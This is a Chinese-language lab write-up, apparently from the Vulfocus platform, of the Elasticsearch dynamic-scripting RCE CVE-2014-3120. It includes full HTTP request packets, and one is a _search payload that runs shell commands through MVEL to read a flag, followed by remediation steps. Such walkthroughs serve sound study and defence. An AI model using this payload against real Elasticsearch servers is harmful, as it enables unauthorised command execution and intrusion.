 # ElasticSearch命令执行漏洞(CVE-2014-3120)  by [Vdeem](https://github.com/Vdeem)

## 一、漏洞描述

Elasticsearch 是一个基于 Lucene 库的搜索引擎，具有 HTTP Web 接口和无模式 JSON 文档。Elasticsearch 是用 Java 开发的，其支持 MVEL、js、Java 等语言，其老版本默认语言为 MVEL。

MVEL -一个被众多 Java 项目使用的开源的表达式语言。

Elasticsearch 1.2之前的版本默认配置启用了动态脚本，该脚本允许远程攻击者通过 _search 的 source 参数执行任意 MVEL 表达式和 Java 代码。

## 二、影响版本

Elasticsearch < 1.2

## 三、利用流程

1 启动 CVE-2014-3120 镜像，打开其访问地址查看，可见其版本为1.1.1

![avatar](./1.png)

![avatar](./2.png)

2 向 Elasticsearch 添加一条数据

![avatar](./3.png)

其数据包为

    POST /website/blog/ HTTP/1.1
    Host: 118.193.36.37:33967
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0
    Content-Length: 26
    
    {
      "name": "vulfocus"
    }

3 script 为最终执行 Java 代码的地方，此字段会被默认当作脚本执行，按照其 json 格式向其填充要执行的代码即可

![avatar](./4.png)

最终目的为 /tmp 下的 flag，其数据包为

    POST /_search?pretty HTTP/1.1
    Host: 118.193.36.37:33967
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0
    Content-Length: 361
```
{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"ls /tmp\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
```
4 填入得到的 flag，成功则出现 恭喜！通过

![avatar](./5.png)

![avatar](./6.png)

## 四、修复方案

1、升级到新版本，大于等于1.2版本即可解决此问题

2、设置 script.disable_dynamic = true，官方已在1.2版本中将 true 设置为默认值

## 参考

https://nvd.nist.gov/vuln/detail/CVE-2014-3120

https://www.elastic.co/cn/community/security/

https://www.elastic.co/guide/en/elasticsearch/reference/current/modules-scripting.html

http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/search-request-script-fields.html

https://github.com/elastic/elasticsearch/issues/5853

https://vulhub.org/#/environments/elasticsearch/CVE-2014-3120/

https://www.t00ls.net/viewthread.php?tid=29408